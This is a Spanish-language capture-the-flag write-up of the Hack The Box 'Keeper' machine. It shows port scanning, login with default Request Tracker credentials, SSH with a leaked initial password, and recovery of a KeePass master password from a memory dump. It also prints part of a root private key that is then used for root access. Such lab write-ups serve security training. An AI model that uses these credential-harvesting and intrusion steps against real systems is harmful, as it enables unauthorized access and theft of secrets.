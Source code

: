 ![Keeper](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f9ded6c6-9195-46ea-acb7-d1d3f9343d4d)

# Reconocimiento
---

Para iniciar la evaluación de la máquina **Keeper** en Hack The Box, se comenzó con un escaneo de puertos utilizando Nmap para identificar los servicios disponibles en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG ports
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:18 -03
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.227 [65535 ports]
Discovered open port 22/tcp on 10.10.11.227
Discovered open port 80/tcp on 10.10.11.227
Completed SYN Stealth Scan at 00:19, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-16 00:18:55 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
           Raw packets sent: 73909 (3.252MB) | Rcvd: 73532 (2.941MB)
```

El escaneo reveló la existencia de los puertos 22 (SSH) y 80 (HTTP) abiertos en la máquina.

```bash
nmap -p 22,80 -n -Pn -sCV 10.10.11.227 -oN openPorts
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:21 -03
Nmap scan report for 10.10.11.227
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

El análisis detallado de los servicios en estos puertos indicó que la máquina estaba ejecutando OpenSSH 8.9p1 en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80.

Además, se modificó el archivo `/etc/hosts` para asociar la dirección IP de la máquina objetivo con el nombre de dominio `tickets.keeper.htb`.

Se procedió a acceder al sitio web en [http://10.10.11.227](http://10.10.11.227/).

```bash
nvim /etc/hosts
<ip-victima>  tickets.keeper.htb
```

[http://tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

# Descubrimiento de la vulnerabilidad
---

Al explorar **Request Tracker**, se descubrieron credenciales predeterminadas para el usuario root:

[Request Tracker Default credentials](https://docs.bestpractical.com/rt/4.4.4/README.html)

```bash
NOTE: The default credentials for RT are:
		User: root
		Pass: password
```

Ingresando al panel de administración en [http://tickets.keeper.htb/rt/Admin/Users/](http://tickets.keeper.htb/rt/Admin/Users/), se encontraron dos usuarios: `lnorgaard` y `root`.

| #   | Name      | Real Name     | Email Address        | Status  |
| --- | --------- | ------------- | -------------------- | ------- |
| 27  | lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb | Enabled |
| 14  | root      | Enoch Root    | root@localhost       | Enabled |

En el panel de edición del usuario `lnorgaard` [http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27](http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27) se encuentra un comentario indicando que la contraseña inicial es `Welcome2023!`.

```
New user. Initial password set to Welcome2023!
```

Se procede a entablar una conexión por SSH con el servidor como el usuario `lnorgaard`.

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@<ip-victima>
```

## User Flag
---

Se accedió exitosamente al sistema como `lnorgaard` utilizando la contraseña encontrada. La flag del usuario se obtuvo ejecutando el siguiente comando:

> [!IMPORTANT]
> User flag `cat /home/lnorgaard/user.txt`

# Escalada de privilegios
---

Se procedió a realizar una escalada de privilegios para obtener acceso a la cuenta root. Se estableció un servidor con **python3** para poder descargar el archivo `RT30000.zip` a la máquina atacante.

```bash
python3 -m http.server <puerto>
KeePassDumpFull.dmp  RT30000.zip  k.ppk  passcodes.kdbx
```

Se descargó el archivo `RT30000.zip` en la máquina atacante y se descomprimió con los siguientes comandos:

```bash
wget http://<ip-victima>/<puerto>/RT30000.zip
unzip RT30000.zip
```

Utilizando la herramienta [KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file), se extrajo una posible contraseña.

[Setup KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file#setup)

Para configurar el KeePass se necesitó instalar lo siguiente:
[Download .NET For Windows](https://dotnet.microsoft.com/en-us/download)
[Descargar .NET 7.0 Runtime](https://dotnet.microsoft.com/es-es/download/dotnet/7.0/runtime?cid=getdotnetcore&os=windows&arch=x64)

Se ejecutó el programa `dotnet` para extraer la posible contraseña
`dotnet run KeePassDumpFull.dmp`

```bash
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Tras una búsqueda en Google de la posible contraseña encontrada se determinó que la contraseña está escrita en idioma danés.
[Resultados de la búsqueda en Google de M}dgrød med fløde](https://www.google.com/search?q=M%7Ddgr%C3%B8d+med+fl%C3%B8de&rlz=1C1CHBF_esAR1082AR1082&oq=M%7Ddgr%C3%B8d+med+fl%C3%B8de&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7Mg4IARAAGAoYQxiABBiKBdIBBzc4MWowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)
`rødgrød med fløde`

Se descargó [KeePassXC](https://keepassxc.org/) y se utilizó para abrir el archivo `passcodes.kdbx` con la contraseña obtenida.
[https://keepassxc.org/download/#linux](https://keepassxc.org/download/#linux)

```bash
keepassxc passcodes.kdbx
rødgrød med fløde
```

En el apartado **Network** se encuentra un usuario **root** y se visualiza una clave privada la que copiamos y guardamos en un archivo con extensión **.ppk**

key.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```

Para acceder al sistema como el usuario root y haciendo uso de la clave encontrada en el gestor de contraseñas se necesita convertir la clave privada.

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
Seguir las instrucciones del README.md para instalar la última versión de `putty`

```bash
cmake .
cmake --build .
cmake --build . --target install
```

Al instalar la versión 0.79 (al día de escrito este write-up) la última versión, se puede convertir el archivo key.ppk a un archivo **PEM RSA private key**. Puede que versiones anteriores a esta arrojen un error en la conversión.

```bash
puttygen key.ppk -O private-openssh -o root.pem
```

Accedemos al sistema mediante SSH haciendo uso de la clave privada recientemente convertida.

```bash
ssh -i root.pem root@10.10.11.227
```

## Root Flag
---

Con privilegios de root, se localizó la root flag en el directorio `/root`

> [!IMPORTANT]
> Root flag `cat /root/root.txt`
